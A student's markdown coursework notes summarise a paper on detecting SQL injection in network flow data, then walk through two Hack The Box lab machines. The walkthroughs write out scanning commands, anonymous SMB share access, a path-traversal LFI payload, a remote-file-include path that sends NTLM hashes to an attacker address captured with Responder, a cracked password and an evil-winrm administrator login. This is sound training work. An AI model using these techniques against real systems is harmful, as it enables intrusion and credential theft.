

# Goal line

## x. Summaries

### Karvinen 2025: Start Your Research with a Review Article

In this article, it talks about review articles which are basically condensed versions of the literature.

It has tiers such as JUFO 1, 2 or 3 and the publication channel is listed on JUFO: https://jfp.csc.fi/jufoportal

It's best if it's fresh and not older than 2 years.

https://scholar.google.com/ncr 

Is a good place to find articles. Search `<subject> + word: "review"`

You don't need to pay for the articles and PDF is usually in the search results

### Choosing an JUFO article to summarize

I chose this article: https://tampere.chronoshub.io/?fq=subjectarea%3A1700&start=260

From within it, I chose the `SQL injection attack detection in network flow data` by `Ignacio Samuel Crespo-Martínez, Adrián Campazas-Vega, Ángel Manuel Guerrero-Higueras, Virginia Riego-DelCastillo, Claudia Álvarez-Aparicio, Camino Fernández-Llamas,`

ISSN: 0167-4048

Volume 127

It describes how SQL injections are a significant portion of security problems in web apps. It is OWASP top 3 2021.

They gathered network flow data from SQLIAs.

There have been similar work before them but and got high accuracy in predicting attack patterns. But this is all network-layer packets. 

They tried to do flow data which is how fast packets are sent on a network and their flow. The packets within the same flow have similarities such as IP addresses, etc. 

A study before them "Sarhan et al. (2020)" did flow-based study but only achieved 25% detection rate.

The article is a bit long (11 pages) so I will skim through majority of the pages and summarize the basic idea.

They looked at SQLIA injections through insecure inputs and used NetFlow to monitor the packets.

They trained a machine-learning model based on the gathered flow data.

They got high reliability from the trained models in predicting attacks, with the best models achieving 96% accuracy in predicting SQL injection attacks.

## a. Done

## b. HTB Tier 0: Dancing

First we spawn the machine and I have connected to it using my kali linux via OpenVPN connectino.

Now I will nmap all the ports. `nmap -A -T4 -p- -sS -sV -O 10.129.221.51`

`-sS` = half-open and fast scan
`-sV` = service version
`-O` = OS version
`-p-` = all ports
`-A` = Aggressive 

- Task 1 & 2: with a short google search we find that the 3 letter acronym for SMB is the server message block which is a port on 445

- Task 3: the service name for port 445 was found using the `-sV` flag which means service version.

and it says `microsoft-ds`

- Task 4 & 5: According to a quick Google search, we can do `smbclient -L <host>` to list available shares, and we can find 4.

Let's try access them.

- Task 6: I also tried `smbclient //10.129.221.51/WorkShares -N` according to another Medium guide by ibrahim atasoy and got an interactive shell with 4 folders.

I got access to the WorkShares directory.

- Task 7: we can use `get <filename>` to download files

We will download the worknotes.txt using `get worknotes.txt`

It is downloaded into the folder we launched smbclient from and we can read it `cat worknotes.txt`

Nothing interesting yet.

Now when we go back to the James' directory, we find the flag. 

The flag reads:

## c. HTB Tier 1: Responder

I connect to hack the box machine.

- Task 1: it is asking us to visit the website with the IP address of the box: `10.129.141.210` but we get a blank page with the domain name being `unika.htb` 

- Task 2: it is asking us what scripting language is used to generate the page

I believe I was running into an error with the unloaded webpage so I looked at a writeup. Indeed I havve to first associate the domain name with the target IP address by editing `/etc/hosts` and add the IP with unika.htb

For some reason the website loads very slowly no matter what method I tried so I'm continuing this exercise with a write up and explaining the processes in my own words as it takes more than a few minutes for the website to refresh.

Source of the writeup by Benjamin Tan on Medium

The website uses php. This can be found when we click on languages and it show the .php

- Task 3: the URL parameter used to load different language versions of the page is `page=french.html` so it's page.

- Task 4: local file include vulnerability is when you let the user access local files on the machine via URL 

In this case `../../../../../../../../windows/system32/drivers/etc/hosts` is the right exploit.

- Task 5: remote file include is when you can access another computer on the same network using the current computer 

In this case the exploit would be: `//10.10.14.6/somefile`

- Task 6: NTLM stands for `New Technology LAN Manager` which is a Microsoft auth protocol that is vulnerable according to Huntress.com

- Task 7: responder is a tool in kali linux used to capture netBios protocol and poison them. It is essentially asking us to do man in the middle attack using responder.

`-I` is the flag for my IP address

`?page=//<my attacker ip>/RANDOM` I will use for remote file include exploit to try get the website to request something from my IP to try and grab a file.

The responder will then request for credentials. It will then give the authentication hash for admin account

- Task 8 & 9: password cracker is john the ripper

We will use john to crack the hash. It seems to be an nltmv2 hash 

The cracked hash is `badminton`

- Task 10: There is a WinRM port open on 5985

- Task 11: We can access it using Evil-winrm and find the flag

`evil-winrm -i 10.129.141.210 -u administrator -p badminton`

and cd to find the flag.txt

This exercise was very interesting. It is unfortunate that the website couldn't load for me but I learned a lot of the different methodologies I have to juggle in between to find exploits.

References:

https://terokarvinen.com/review-article/

https://www.sciencedirect.com/science/article/pii/S0167404823000032

https://medium.com/@agvask/youre-using-nmap-all-wrong-3d8a5ff189e

https://nmap.org/book/man-version-detection.html

https://medium.com/@ibo1916a/smbclient-command-2803de274e46

https://medium.com/@ibo1916a/smbclient-command-2803de274e46

https://medium.com/@cyber_magix/hack-the-box-starting-point-tier-1-responder-e5c810afd83a

https://www.huntress.com/cybersecurity-101/topic/what-is-ntlm#:~:text=NTLM%20stands%20for%20New%20Technology,somewhere%20in%20the%20authentication%20chain

https://www.kali.org/tools/responder/

https://github.com/lgandx/Responder

https://cyberhound.tech/htb-responder-lessons-learned-not-a-standard-walkthrough/